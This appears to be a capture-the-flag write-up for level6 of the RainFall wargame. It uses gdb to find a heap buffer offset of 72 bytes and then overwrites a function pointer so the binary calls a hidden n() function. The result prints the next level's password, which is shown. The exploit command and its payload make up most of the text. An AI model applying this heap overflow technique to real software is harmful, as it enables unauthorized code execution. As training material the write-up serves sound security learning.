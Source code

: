 scp -P 4242 level6@192.168.56.103:/home/user/level6/level6 /home/zouz/Desktop/level6

the program expects a command line input and we can see an n() function not called anywhere which prints the flag we need. We'll use the strcpy overflow to print n()


1. Find out the buffer’s address

```
0x08048485      mov dword [esp], 0x40 ; '@' ; 64 ; size_t size
0x0804848c      call malloc        ; sym.imp.malloc ;  void *malloc(size_t size)
0x08048491      mov dword [dest], eax
```

%eax should contain our argv[1]’s address. Check that out by inserting a breakpoint after this instruction.

```
(gdb)  r AAAA
Starting program: /home/user/level6/level6 AAAA

Breakpoint 1, 0x08048491 in main ()
(gdb) i r
eax            0x804a008	134520840
(gdb) c
Continuing.

Breakpoint 2, 0x080484c5 in main ()
(gdb) i r
eax            0x804a008	134520840
ecx            0x20fa9	135081
edx            0xbffff903	-1073743613
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff700	0xbffff700
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x80484c5	0x80484c5 <main+73>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) c
Continuing.

Breakpoint 3, 0x08048468 in m ()
(gdb) x /128bx 0x804a008
0x804a008:	0x41	0x41	0x41	0x41	0x00	0x00	0x00	0x00
0x804a010:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a018:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a020:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a028:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a030:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a038:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a040:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a048:	0x00	0x00	0x00	0x00	0x11	0x00	0x00	0x00
0x804a050:	0x68	0x84	0x04	0x08	0x00	0x00	0x00	0x00
0x804a058:	0x00	0x00	0x00	0x00	0xa9	0x0f	0x02	0x00
0x804a060:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a068:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a070:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a078:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a080:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
```
we can see that at 0x804a050 there is the address of m() so end of our buffer is at 0x804a048.
Hex value: 804a050 – 804a008 = 48
Decimal value: 134520912 – 134520840 = 72
The buffer size is 72.

2. Find out the variable’s address.

```
(gdb) x n
0x8048454 <n>:	0x55
```

3. Exploit !

```
(gdb) r $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
Starting program: /home/user/level6/level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
/bin/cat: /home/user/level7/.pass: Permission denied
[Inferior 1 (process 8282) exited normally]
```

in the terminal: 

level6@RainFall:~$ ./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
